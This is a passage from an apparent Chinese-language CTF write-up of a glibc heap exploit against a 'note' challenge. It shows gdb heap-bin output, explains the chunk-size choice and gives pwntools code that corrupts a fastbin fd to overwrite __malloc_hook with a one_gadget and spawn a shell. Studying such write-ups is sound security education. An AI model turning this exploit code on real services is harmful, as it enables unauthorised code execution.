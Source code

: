```
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
===================  Arena 1  ====================
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x7fa8b40009a0 (overlap chunk with 0x7fa8b40008b0(freed) )
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x7fa8b4000b30 (size : 0x204d0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x7fa8b40008b0 (size : 0x260)
gdb-peda$ 
```


###3) fastbin attack

现在我们手头有一个size为0x260并处于unsortbin的chunk，同时在该chunk中overlap了一个size为0x70的fastbin chunk。

>Q：为什么overlap的chunk的size要是0x70？
>
>A：因为fastbin的范围为0x20~0xb0，__malloc_hook附近只有高位地址的0x7f适合作为chunk的size，因此我们的chunk的size选用0x70，否则报错。

因此我们可以通过malloc unsortbin中的chunk，往overlap的chunk_BBB中填写数据，使得chunk_BBB的fd指向包含了__malloc_hook的数据块，第二次分配fastbin chunk时，即可对__malloc_hook进行改写。

通过一张图来说明：
![](https://raw.githubusercontent.com/zzz4ck/zzz4ck.github.io/master/screenshot/note_step3.PNG)

代码如下：
```
# 4.fastbin attack

onegadget = libc + 0xf1147  #one_gadget在libc的偏移，可利用github的one_gadget工具得到

new_note(0, 0x160, 'A'*0xe0+p64(0xf0)+p64(0x74)+p64(libc+libc_elf.symbols['__malloc_hook']-0x23)+'B'*0x57)  #分配chunk_AAA，重点修改overlap的chunk_BBB的fd
new_note(1, 0x70-8, 'A'*(0x70-8-1)) #第一次分配fastbin，分配后fastbin指向__malloc_hook-0x23
delete_note(2)
new_note(2, 0x70-8, 'A'*0x13+p64(onegadget)+'zzz') #第二次分配fastbin，此时修改__malloc_hook为one_gadget
delete_note(1)

p.sendline('1')
p.recvuntil('index: ')
p.sendline('1')
p.recvuntil('size: ')
p.sendline('1')
p.interactive() #get shell
```

